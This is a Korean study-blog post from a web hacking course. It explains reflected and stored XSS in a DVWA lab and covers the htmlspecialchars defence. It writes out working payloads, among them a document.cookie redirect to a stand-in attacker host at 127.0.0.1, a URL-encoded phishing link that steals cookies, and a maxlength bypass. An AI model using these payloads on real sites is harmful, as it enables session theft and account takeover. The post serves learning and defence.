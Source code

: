```yaml
---
title:  '[강의] 6주차 웹 해킹- 웹 해킹 기술 탐색 5'
excerpt: "week6"

categories:
  - study
  - etc
  - hacking
tags: [study, etc, virtualbox, kalilinux, hacking]

last_modified_at: 2021-07-31T08:06:00-05:00
classes: wide
--- 
```


### 8주간의 해킹 스터디 다섯번째 시간

6주차 스터디! 

강의링크는 오른쪽! => [goormedu](https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술)

<br>

이번 시간은 스크립트 코드 삽입을 통해 개발자가 고려하지 않은 기능이 작동하게 하는 치명적인 공격인 **크로스사이트스트리밍(XSS) 공격**에 대해 알아보겠습니다. 

<hr>

### XSS 공격

XSS공격에 대해 알아보기 전 XSS에서 사용하는 언어인 **자바스트립트 언어**에 대해서 알아보도록 한다.

#### - 자바스크립트 (JS)

웹어플리케이션에서 사용되는 언어 HTML과 자바스크립트로 이루어져있음

> HTML : 텍스트, 이미지 등 정적인 내용 표시
> 
> 자바스크립트 : 동적인 기능을 구현 ( ex) 마우스를 가져가면 메뉴의 색이 변하는 것 )

JS 사용 방법!
~~~
<script>  script code    </script>
~~~ 


#### XSS 공격이란?

클라이언트 쪽의 웹브라우저를 공격하는 기법이다. 

만약 어떤 웹브라우저 기능이 입력값을 그대로 출력하는 것이라면, <script>와 같은 입력값이 그대로 웹페이지에 표시되면 위험하다. 
  
해커는 이 자바스크립트를 이용해 세션 쿠키를 알아내 탈취하게 되는 것이다.

#### XSS공격 2가지
> 1. reflected XSS
>
> 2. stored XSS
  
<br>
  
#### 1. Reflected XSS 공격
 
reflected는 script를 반사하기 때문에 붙여진 이름이다. 공격 순서를 알아보도록 한다.

먼저 해커가 한 사용자에게 이메일 등으로 피싱을 한다.
  
![1](https://user-images.githubusercontent.com/53431568/127724126-1218ea01-9dec-4acc-89d2-931aaaed49aa.PNG)

<br>
  
이때, 사용자가 피싱에 속아 클릭을 하게 되면 스크립트 코드가 삽입된 요청이 전송된다.
  
![2](https://user-images.githubusercontent.com/53431568/127724129-3d0a9ede-6cea-426b-8886-a526547ca6ad.PNG)

<br>
  
웹 어플리케이션은 스크립트 코드를 반사시켜 그대로 되돌려준다. 이렇게 되면 웹 브라우저는 스크립트를 실행하게 되고 얻어낸 쿠키를 해커에게 전달하게 된다.

![3](https://user-images.githubusercontent.com/53431568/127724134-af31a433-2e05-479d-8d6a-18a293cd9062.PNG)

<br>

해커가 얻어낸 세션 쿠키를 사용되면 해당 사용자의 계정으로 접속할 수 있게 된다.
  
![4](https://user-images.githubusercontent.com/53431568/127724131-8e03fa4f-29b5-49f3-88fc-a93cbb1da238.PNG)

  
  
#### 2. Stored XSS 공격

script코드가 한 번 저장되었다가 나중에 실행되는 공격!
  
먼저, 해커가 피싱을 하는 것이 아니라 서버의 게시판이나 방명록 같은 곳에 스크립트 코드를 남긴다.
  
![image](https://user-images.githubusercontent.com/53431568/127724500-9e13c762-5561-4e5f-9621-20b171b958b1.png)

<br>

이후 사용자가 방명록에 접속해 글을 읽게 되면 글을 읽은 사용자에게 스크립트 코드가 실행된다.

![image](https://user-images.githubusercontent.com/53431568/127724518-56784bb0-41e9-4ef1-8160-fccd2e574f91.png)

<br>
  
이 이후는 reflected XSS 공격과 같이 쿠키값이 해커에게 전달되고 해커는 해당 사용자의 계정으로 접속할 수 있게 된다.

![image](https://user-images.githubusercontent.com/53431568/127724536-c2e840d8-a148-470f-8a89-56f7bc683d8c.png)

 
### XSS 공격 실습 🚀
#### 1. Reflected

먼저, `low`단계에서 실습! XSS(Reflected) 메뉴로 가면 다음과 같이 이름을 입력하는 웹브라우져가 실행된다.

![image](https://user-images.githubusercontent.com/53431568/127726951-17cb7939-486a-4efc-9275-4fcf6591b1fa.png)

이름을 입력하니 입력한 값이 다시 리턴되는 것을 볼 수 있다.

![image](https://user-images.githubusercontent.com/53431568/127727006-15841c20-3608-4aee-9286-1eb2a12449a1.png)

XSS 취약점을 찾기 위한 가장 간단한 방법은 script 태그를 입력폼에다 입력하는 것이다! 
  
`<script>alert(1)</script>`  명령어를 입력하니 다음과 같이 알림창이 뜨는 것을 확인하였다!! 이를 통해서 해커는 reflected xss 공격이 가능하다는 것을 파악하게 된다.  

![image](https://user-images.githubusercontent.com/53431568/127727055-81d832b0-9b44-4dbd-9ee4-3b72247a8a09.png)

이번에는 쿠키값을 알아보자!
  
`<script>alert(document.cookie)</script>` 입력하니 쿠키의 값이 출력되었다. 

![image](https://user-images.githubusercontent.com/53431568/127727115-08e82497-fe2e-4317-9d21-c1948b7314a4.png)


<br><br>

이번에는 알아낸 쿠키값을 해커가 관리하는 시스템과 같은 다른 시스템에 전달해보자!!!

먼저 터미널을 켜고 `tail -f /opt/lampp/logs/acess_log' 명령어를 통해 해커 호스트의 웹서버의 로그가 출력되는 것을 확인하고, 이후 발생하는 로그도 계속 확인하도록 한다.

![image](https://user-images.githubusercontent.com/53431568/127727168-3cb70cb9-fe82-42fa-8bea-0cdee6504cb0.png)

다음으로  `<script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>` 명령어를 reflected xss의 입력창에 입력해준다.

> 명령어를 해석하면, document.loaction은 뒤에 나오는 127.0.0.1 인 (지금 해커사이트라고 가정하는 주소)에 리다이렉트를 시켜주며, document.cookie 명령어를 이용해 cookie값을 찍어오게 된다.

아래 이미지를 보니, 입력한 후 터미널에 쿠키값이 넘겨진 것을 확인할 수 있다.  
  
![image](https://user-images.githubusercontent.com/53431568/127727310-fb7ec7ab-6814-40ce-b007-454e63ddb0da.png)
  

  <br>
  <br>
  
  
그런데 드는 의문이.. 개발자도 아니고 어떤 사용자가  <script></script> 를 직접 입력하려나..?! 😅😅😅

따라서 해커는 피싱을 이용해서 사용자가 자기도 모르는 새에 걸려들도록 한다고 한다! ㅎㅎ 그렇다면 간단한 피싱용 메일을 만들어보자!

처음과 같이 이름을 입력하고 이번에는 주소창을 주목! 파라미터 값으로 이름이 전달되는 것을 확인할 수 있다. 이름과 #을 제외한 주소를 복사하자! ctrl + v!  
  
  ![image](https://user-images.githubusercontent.com/53431568/127727435-ccef162e-0164-427b-9614-02ab7cc07f10.png)

  <br>  
  
  이제 피싱링크를 넣을 건데 아까 복사한 주소 뒤에 다음 명령어를 붙여준다. `<script>document.location%3D'http://127.0.0.1/cookie%3F'%2Bdocument.cookie</script>`
  
  뭔가 이상함을 감지했나요?! ㅎㅎ `= , ? , + ' 라는 문자들이 '%3F, %3F, %2B` 로 인코딩되었습니다. 이 이유는  gmail에서 링크를 삽입할때는 url인코딩 기법을 이용해서 인코딩을 거쳐야 하기 때문입니다.!!  주의주의~ 😊😊
  
  
  최종적으로 입력해야할 링크 코드는 다음과 같다.
  
  ~~~javascript
  http://localhost/dvwa/vulnerabilities/xss_r/?name=<script>document.location%3D'http://127.0.0.1/cookie%3F'%2Bdocument.cookie</script>
  ~~~
  
![image](https://user-images.githubusercontent.com/53431568/127727655-9fdc0205-7917-450e-85bf-41ddbfbe517a.png)

위와 같이 했다면 이메일을 보내고 체크! 내가 보낸 메일을 열고 링크를 클릭하니 아까와 같이 터미널 창에 쿠키값이 전달되는 것을 확인할 수 있었다.

![image](https://user-images.githubusercontent.com/53431568/127727771-cec42aa0-36b8-482e-b8fa-6c518d4eb2d4.png)

<br><br>
  
#### 2. Stored XSS
  
해커가 스크립트 코드를 서버에 직접 삽입한다. 때문에 해당 페이지를 방문하는 모든 사용자가 위험에 노출되는 무서운 공격이다.

dvwa의 Stored XSS 메뉴로 들어가면 방명록을 작성하는 것과 같은 페이지를 보게되는데 이때, 테스트 텍스트를 넣어보자! 나는 다음과 같이 아까 사용한  `<script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>` 코드를 입력하니 뒤에 글자 제한 때문에 코드가 잘린 것을 볼 수 있다. 
  
![image](https://user-images.githubusercontent.com/53431568/127727913-e7cf860b-e476-4070-877c-c26deb1f8fc5.png)

이런 글자 수 제한은 간단히 우회할 수 있는데.. 입력창에서 마우스 오른쪽 클릭을 한 후 inspect element를 보면 아래에 창이 뜬다. 자세히 보면 maxlength 라는 파라미터가 있는데 이 값을 변경해 주면된다.!

![image](https://user-images.githubusercontent.com/53431568/127727832-8099a12b-3f8a-4615-b705-513ca9c1a3a6.png)

나는 50-> 500으로 넉넉히 변경해주었다. 이제 입력이 가능하다! 

![image](https://user-images.githubusercontent.com/53431568/127727995-1e97c99b-6f2e-4f22-8dbc-626dbbb56fbb.png)

방명록에 입력후 버튼을 누르자 마자 바로 스크립트가 실행된다. 이는, 이 글이 있는 방명록 페이지에 접속하자 마자 스크립트가 실행되는 것이다. 

![image](https://user-images.githubusercontent.com/53431568/127728071-7b2d8eb7-32f2-4e72-88ba-6f3e3647a88a.png)

터미널을 확인하니 페이지에 방문하기만 해도 쿠키값이 넘어가는 것을 확인할 수 있었다.

![image](https://user-images.githubusercontent.com/53431568/127728104-96a029ea-da93-4bb9-8d4d-0a828d2fe204.png)

이런식으로 해커는 하나의 공격으로 다수의 사용자들을 공격할 수 있게 된다. 

<br><br>
  
### XSS 공격 대응 👨‍🏫

impossible 단계의 소스코드를 보면서 알아보자
  
![image](https://user-images.githubusercontent.com/53431568/127728266-50c4bf64-d38b-4f00-b04d-5fae57d83e74.png)
  
소스코드를 보니 `htmlspecialchars` 라는 함수를 사용하는데 이 함수는 몇몇 함수를 html entity 라는 것으로 변경하는 함수이다.
  
이를 통해서 페이지 상에서는 script 코드가 그냥 들어간 것 같지만 뒤에서는 이 코드를 **`다른 문자로 변경하여 실제로 코드 실행을 방지`**할 수 있게 한다.

실제로 restored reflect 페이지에서 `<script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>`를 submit 한 수, 페이지 빈 공간에서 
오른쪽 클릭을 한 후 View source를 확인해보면..
  
  ![image](https://user-images.githubusercontent.com/53431568/127728429-ed9e35a5-4165-4455-86bf-556184084438.png)

  다음과 같이 몇몇 문자가 다른 문자로 바뀐 것을 확인할 수 있다! (`&lt` 와 같은 전혀 다른 의미를 내포하는 명령어로 교체됨)

  ![image](https://user-images.githubusercontent.com/53431568/127728396-832a08f1-2f16-42b9-a171-9d9b9e493f67.png)

  
  
#### 이미지 출처
  
[https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술](https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술)
  
  
  
